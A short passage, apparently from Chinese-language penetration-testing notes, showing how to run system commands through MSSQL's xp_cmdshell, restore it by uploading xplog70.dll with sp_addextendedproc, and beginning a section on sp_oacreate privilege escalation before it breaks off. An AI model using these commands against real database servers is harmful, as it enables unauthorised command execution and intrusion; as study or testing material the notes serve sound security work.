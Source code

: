 ##### 执行

```mssql
EXEC master.dbo.xp_cmdshell '命令'
EXEC master.dbo.xp_cmdshell ipconfig
```

启用就可以查询

![60-29](image60/60-29.png)





##### 恢复

如果 xp_cmdshell 被删除了，可以上传 xplog70.dll 进行恢复

```mssql
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL
Server\MSSQL\Binn\xplog70.dll'
```







### sp_oacreate 提权

主要是用来调用 OLE 对象，利用 OLE 对象的 run 方法执行系统命令。

关闭状态
